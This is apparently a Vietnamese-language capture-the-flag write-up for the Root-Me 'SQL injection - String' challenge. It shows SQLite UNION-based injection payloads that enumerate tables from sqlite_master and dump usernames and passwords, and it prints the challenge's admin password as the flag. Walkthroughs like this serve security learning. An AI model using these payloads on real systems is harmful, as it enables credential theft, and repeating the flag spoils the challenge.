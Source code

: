 # SQL injection - String
CMS v 0.0.2

http://challenge01.root-me.org/web-serveur/ch19/

**Statement**: Retrieve the administrator password

## Cách làm
### Tìm chức năng dính lỗi SQLi
Sau khi truy cập vào link, ta thấy có các chức năng như trang chủ, đăng nhập, tìm kiếm

![image](https://github.com/aQ05/Write-up/assets/121664384/cf62bf7a-4325-4994-b71b-156e05f23b2f)

Để biết lỗi SQLi xảy ra ở chức năng nào thì ta chỉ cần nhập ký tự `1'` và lỗi SQLi xuất hiện tại ô tìm kiếm

![image](https://github.com/aQ05/Write-up/assets/121664384/85d78798-2c99-4f34-8e7a-e058ec73c2c8)

CSDL được sử dụng ở đây là SQLite3 nên ta sẽ khai thác trên SQLite3.
### Tìm số cột
Đầu tiên sử dụng lệnh `ORDER BY` để kiểm tra số cột cho phép.

Nhập lệnh `1’ order by 1--` và đến `1' order by 3--` thì bị lỗi.

![image](https://github.com/aQ05/Write-up/assets/121664384/37d2dd10-8e0d-48cd-b20b-4f44b58d6530)

Tức là CSDL này có 2 cột. Dùng lệnh `UNION SELCT` để khai thác dữ liệu.
### Exploit
Với SQLite3 (https://www.sqlite.org/faq.html), ta sẽ `SELECT` đến `SQLITE_SCHEMA`

![image](https://github.com/aQ05/Write-up/assets/121664384/7c379380-5410-4360-a210-8ae1eacafb85)

Gõ lệnh `1' union select name,sql from sqlite_master--`, ta sẽ biết được CSDL này có 2 bảng là `news` và `users` với lần lượt là tên cột, kiểu dữ liệu.

![image](https://github.com/aQ05/Write-up/assets/121664384/df32cc27-1c25-403a-9444-fa297dadad2f)

`news (CREATE TABLE news(id INTEGER, title TEXT, description TEXT))`

`users (CREATE TABLE users(username TEXT, password TEXT, Year INTEGER))`

Đề bài yêu cầu tìm password admin nên ta cần truy xuất dữ liệu từ bảng `users`. Thực thi câu lệnh  `1' union select username, password from users --`, ta sẽ tìm được password của admin: `admin (c4K04dtIaJsuWdi)`

![image](https://github.com/aQ05/Write-up/assets/121664384/c1ae054f-3d4b-4b73-ad7c-8784c82412cd)

Và đăng nhập thành công
![image](https://github.com/aQ05/Write-up/assets/121664384/fd7edfcd-7f0e-47d7-9a70-4b19e9e56cd0)

## Flag
`c4K04dtIaJsuWdi`




